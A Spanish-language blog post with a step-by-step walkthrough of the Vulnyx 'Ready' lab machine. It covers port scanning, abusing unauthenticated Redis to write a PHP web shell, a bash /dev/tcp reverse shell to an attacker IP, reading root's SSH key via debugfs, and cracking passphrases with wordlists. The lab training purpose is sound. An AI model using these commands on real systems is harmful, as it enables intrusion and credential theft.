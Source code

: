 ```yaml
---
layout: post
title:  "Ready"
date:   2024-04-11 11:37:29
categories: sample
vm: vulnyx
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Ready</td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#ready"> Vulnyx</a></td> </tr>
</table>

<br>

![machine](/notas/public/img/vulnyx/ready/readypc.png){:.margin}

**1\.** teniendo la ip de la maquina, hacemos un descubrimiento de puertos

`sudo nmap -p- --open -sS -T5 --min-rate=5000 192.168.1.7 -n -Pn`

![p80](/notas/public/img/vulnyx/ready/nmap_ports.png){:.margin}

**2\.** lanzamos un conjunto de script de reconocimiento a dichos puertos

`sudo nmap -p22,80,6379,8080 -sCV -n -Pn 192.168.1.7`

![versions](/notas/public/img/vulnyx/ready/nmap_version.png){:.margin}

**3\.** Revisamos apache en los puertos 80 y 8080, no vemos nada interesante

![versions](/notas/public/img/vulnyx/ready/apache_80.png){:.margin}
![versions](/notas/public/img/vulnyx/ready/apache_8080.png){:.margin}

**4\.** Podemos fuzzear ambos servicios de apache, pero no encontraremos nada interesante

`gobuster dir -u http://192.168.1.7:80/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash -t 50 -x html,php,txt -b 404,403`

![versions](/notas/public/img/vulnyx/ready/fuzz80.png){:.margin}

`gobuster dir -u http://192.168.1.7:8080/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash -t 50 -x html,php,txt -b 404,403`

![versions](/notas/public/img/vulnyx/ready/fuzz8080.png){:.margin}

**5\.** Probamos acceder a redis sin credenciales (Se puede), tambien podemos crear un archivo php en el servidor apache

`redis-cli -h 192.168.1.7`

`config get dir`

`config set dbfilename shell.php`

`config set dir /var/www/html/`

`set shell.php "<?php system($_GET['cmd']);?>"`

`save`

`exit`

![redis](/notas/public/img/vulnyx/ready/redis.png){:.margin}

**6\.** Apuntamos hacia nuestro archivo generado, incluimos el parametro cmd para mediante este ingresar comandos de sistema.

\- En el puerto 80 no lo encontramos: `http://192.168.1.7/shell.php?cmd=id`
![notfound](/notas/public/img/vulnyx/ready/not_found_80.png){:.margin}

\- Sobre el 8080 si que podemos: `http://192.168.1.7:8080/shell.php?cmd=id`

![found](/notas/public/img/vulnyx/ready/found_8080.png){:.margin}

**7\.** Nos ponemos en escucha en el puerto 443

`sudo nc -nlvp 443`

![nc](/notas/public/img/vulnyx/ready/nc.png){:.margin}

**8\.** Ingresamos el comando para obtener un Reverse Shell

`http://192.168.1.7:8080/shell.php?cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.13/443 0>%261"`

![revershell](/notas/public/img/vulnyx/ready/revershell.png){:.margin}

**9\.** Ya teniendo acceso a la máquina, estamos como usuario Ben, revisamos los grupos al que pertenece.

-Pertenemos al grupo disk, con esto podemos montar y desmontar Unidades

`id`

![id](/notas/public/img/vulnyx/ready/id.png){:.margin}

**10\.** Revisamos unidades disponibles

`df -h`

![df](/notas/public/img/vulnyx/ready/df.png){:.margin}

**11\.** Buscamos la herramienta de análisis y depuración de archivos   

`find / -type f -name debugfs 2>/dev/null`

`which debugfs`

![debugs](/notas/public/img/vulnyx/ready/debugfs.png){:.margin}

**12\.** Ingresamos al disco sda1, luego leemos la llave privada de root.

`/usr/sbin/debugfs /dev/sda1`

`cat /root/.ssh/id_rsa`

![idrsa](/notas/public/img/vulnyx/ready/cat_idrsa.png){:.margin}

**13\.** Vemos que la llave esta protegida, lo copiamos y lo guardamos en un archivo en nuestra máquina local 

`nano key`

![key](/notas/public/img/vulnyx/ready/key.png){:.margin}

**14\.** En este caso usare la herramienta RSAcrack para obtener un passphrase

`sudo RSAcrack -w /usr/share/wordlists/rockyou.txt -k key`

![rsacrack](/notas/public/img/vulnyx/ready/rsacrack.png){:.margin}

**15\.** Teniendo la clave nos conectamos como root por ssh

`ssh -i key root@192.168.1.7`

![ssh](/notas/public/img/vulnyx/ready/ssh.png){:.margin}

**16\.** Vemos que tenemos un comprimido, abrimos un servidor local

`ls`

`python3 -m http.server 8081`

![img](/notas/public/img/vulnyx/ready/python_server.png){:.margin}

**17\.** Desde nuestra máquina local nos descargamos el comprimido

`wget http://192.168.1.7:8081/root.zip`

![img](/notas/public/img/vulnyx/ready/wget.png){:.margin}

**18\.** Intentamos descomprimir pero necesitamos un acontraseña

`unzip root.zip`

![img](/notas/public/img/vulnyx/ready/unzip.png){:.margin}

**19\.** Utilizamos zip2john para obtener un hash que representa la contraseña

`zip2john root.zip > hashzip`

![img](/notas/public/img/vulnyx/ready/zip2john.png){:.margin}

**20\.** Ahora desciframos la contraseña

`john --wordlist=/usr/share/wordlists/rockyou.txt hashzip`

![img](/notas/public/img/vulnyx/ready/clave.png){:.margin}

**21\.** Teniendo la clave procedemos a descomprimir, asi obtenemos la "flag" de root

`unzip root.zip`

![img](/notas/public/img/vulnyx/ready/flag.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>